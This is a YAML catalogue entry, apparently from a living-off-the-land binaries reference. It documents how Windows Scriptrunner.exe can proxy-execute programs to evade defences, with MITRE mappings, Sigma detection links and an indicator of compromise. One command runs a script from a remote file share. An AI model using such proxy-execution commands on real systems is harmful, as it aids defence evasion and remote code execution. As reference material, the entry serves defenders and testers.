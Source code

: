 ```yaml
---
Name: Scriptrunner.exe
Description: Execute binary through proxy binary to evade defensive counter measures
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: Scriptrunner.exe -appvscript calc.exe
    Description: Executes calc.exe
    Usecase: Execute binary through proxy binary to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
    Description: Executes calc.cmd from remote server
    Usecase: Execute binary through proxy binary from external server to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\scriptrunner.exe
  - Path: C:\Windows\SysWOW64\scriptrunner.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/765acac3742310764495ed5a2006bc0ced5b1a67/rules/windows/process_creation/win_susp_servu_process_pattern.yml
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/914800377580503040
  - Link: https://twitter.com/NickTyrer/status/914234924655312896
  - Link: https://github.com/MoooKitty/Code-Execution
Acknowledgement:
  - Person: Nick Tyrer
    Handle: '@nicktyrer'
---
```

